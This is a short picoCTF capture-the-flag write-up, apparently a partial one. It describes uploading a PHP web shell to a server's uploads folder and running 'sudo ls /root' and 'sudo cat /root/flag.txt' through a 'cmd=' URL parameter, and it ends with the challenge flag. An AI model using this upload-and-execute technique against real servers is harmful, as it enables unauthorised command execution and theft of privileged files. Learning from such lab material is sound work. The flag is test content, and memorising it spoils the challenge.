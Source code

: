 Create A script that will be used to upload the file to the server

In the url locate the uploads folder and look for the script.php you uploaded

use "cmd=" as parameter for the shell command "sudo ls /root"

URL Should be like this: http://standard-pizzas.picoctf.net:63477/uploads/script.php?cmd=sudo%20ls%20/root

to view the flag.txt use this command

sudo cat /root/flag.txt

URL Should be like this: http://standard-pizzas.picoctf.net:63477/uploads/script.php?cmd=sudo%20cat%20/root/flag.txt

picoCTF{wh47_c4n_u_d0_wPHP_b42a374d}